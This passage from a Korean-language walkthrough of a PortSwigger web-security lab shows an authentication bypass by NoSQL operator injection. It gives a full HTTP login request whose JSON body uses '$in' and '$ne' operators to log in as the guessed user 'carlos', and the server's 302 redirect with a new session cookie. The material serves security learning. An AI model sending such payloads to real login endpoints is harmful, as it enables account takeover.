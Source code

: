 ```http
                            <input required type=password name="password">
                            <button class=button onclick="event.preventDefault(); jsonSubmit('/login')"> Log in </button>
                            <script src='/resources/js/login.js'></script>
                        </form>
                    </section>
                </div>
            </section>
            <div class="footer-wrapper">
            </div>
        </div>
    </body>
</html>

```

6. username을 좀더 추가해서 시도해본다. 음.. 이전 문제들에서 얻은 지식이긴 하지만 PortSwigger 랩에서는 carlos란 사용자가 주로 관리자였다. carlos를 추가해본다. 

```http
POST /login HTTP/2
Host: 0ac900fe040e691d83b3647700400094.web-security-academy.net
Cookie: session=JfmsNEjgFPT37HXmriKAf7uyEwrnvwiK
Content-Length: 40
Sec-Ch-Ua: "Google Chrome";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://0ac900fe040e691d83b3647700400094.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ac900fe040e691d83b3647700400094.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

{"username":{"$in":["admin","administrator","superadmin",
"carlos"]},"password":{"$ne":""}}
```

오! 이번에는 302응답이 돌아왔다. 

```http
HTTP/2 302 Found
Location: /my-account?id=carlos
Set-Cookie: session=rXTCwOyiYf48CnOh7RgCmFBvnQKCYmby; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0


```
